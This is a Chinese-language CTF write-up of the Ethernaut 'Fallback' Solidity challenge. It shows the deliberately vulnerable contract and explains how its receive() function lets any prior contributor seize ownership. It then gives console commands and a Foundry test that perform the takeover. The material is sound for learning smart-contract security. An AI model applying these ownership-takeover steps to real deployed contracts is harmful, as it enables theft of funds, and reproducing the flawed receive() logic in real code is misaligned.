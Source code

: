 参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

获取合约的控制权

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**: 合约部署者在部署时赞助了 1000 个ether
2. **contribute**: 用户可以调用 contribute 函数对活动合约进行赞助，当赞助额度累计大于一开始的合约部署者时，合约拥有者更新为最大赞助者
3. **withdraw:** 由函数修饰符限制，只有合约拥有者能提现所有赞助
4. **receive:** 合约收到转账时触发的处理函数，当用户转给合约的赞助大于0，且在合约中记录的赞助大于0时，合约拥有者更新为该调用者

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 思路

在合约中，可以看到，更新 owner 的操作只有两个地方：

1. contribute: 需要比最高赞助商更高，正常获取合约控制权，这需要至少 1000 ether
2. receive: 只需要余额大于0，且给合约赞助过即可

那么，很显然，我们需要想办法触发 receive 函数，我们先来看 receive 函数特性

```
           receive ETH
              |
         msg.data is empty?
            /  \\
          yse    no
          /      \\
has receive()?   fallback()
        / \\
       yes  no
      /     \\
receive()   fallback()
```

我们可以看到，只有在不存在 msg.data，只发送 eth 时会触发 receive 函数。

## Remix 测试

首先我们在 remix 中部署这个合约， 然后交互

1. 部署合约，此时的 owner 为部署者地址

   ![image-20240904003823592](..\pict\1.png)

2. 使用第二个地址调用 contribute 函数赞助,这里赞助值不能高于0.001ether,也就是1 Finey

   ![image-20240904003823592](..\pict\2.png)

3. 查看当前的赞助余额大于 0

   ![image-20240904003823592](..\pict\3.png)

4. 发送 eth

   ![image-20240904003823592](..\pict\4.png)

5. 调用，注意，这里，calldata 即为要发送的 msg.data 值，这里不可以填

   ![image-20240904003823592](..\pict\5.png)查看合约 owner，成功改变

   ![image-20240904003823592](..\pict\6.png)

## console

控制台交互：

1. 赞助

```
await contract.contribute({value:1})
```

1. 发送ethe

```solidity
await contract.sendTransaction({value:1})
```

## foundry 复现

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Fallback} from "../src/Fallback.sol";

contract FallbackTest is Test {
    Fallback public fallbackDemo;
    address public owner;
    address attacker = vm.addr(1);

    function setUp() external {
        fallbackDemo = new Fallback();
        console.log(1, fallbackDemo.owner());
        payable(attacker).call{value: 1 ether}("");
    }

    function test_receive() public {
        vm.startPrank(attacker);
        fallbackDemo.contribute{value: 0.0001 ether}();
        console.log(2, fallbackDemo.owner());
        address payable addr = payable(address(fallbackDemo));
        (bool success,) = addr.call{value: 0.0001 ether}("");
        console.log(3, fallbackDemo.owner());
        assertEq(fallbackDemo.owner(), attacker, "attack failed");
    }
}
```

### 2. 要点

这里主要涉及三个部分：

1. **startPrank 作弊码：**

   作弊码是 Foundry 特有的属性，由于 Foundry 所有脚本采用 Solidity 交互，因此，Foundry 内置了很多可供 Solidity 以外操作的作弊码，比如更改区块号，切换调用用户身份等。这里的 `startPrank` 就可以用于切换用户身份

   ```solidity
   function startPrank(address) external;
   function startPrank(address sender, address origin) external;
   ```

   这个函数指，从调用开始，直到遇到 `stopPrank` ，否则其后的调用者或者 tx.origin 都会是指定地址

   当然，对应的，其实也可以使用 **`prank`**

   ```solidity
   function prank(address) external;
   function prank(address sender, address origin) external;
   ```

   这个作弊码，只会改变其后的一次调用

2. **addr:**

   ```solidity
   function addr(uint256 privateKey) external returns (address);
   ```

   这个作弊码，实际上相当于可以根据你输入私钥生成地址，我们测试中将 1 作为私钥生成了对应地址

3. **call 函数的使用：**

   Solidity 中，向指定地址发送 eth 可以使用三种函数 `transfer`、`call`、`send`

   ```solidity
   // {value:} 要发送的数量
   // ("") msg.data，这里为空
   payable(address).call{value: 0.0001 ether}("");
   ```

   <aside> 💡


   实际上， **`call`** 不仅可以发送 eth，还能通过 msg.data 的形式去实现函数调用

   </aside>

### 3. 测试

终端输入

```solidity
forge test --match-path test/Fallback.t.sol -vvvv
```

可以看到，最终在攻击后打印出的 owner 和前两次打印值不一样

![image-20240904004054654](..\pict\image-20240904004054654.png)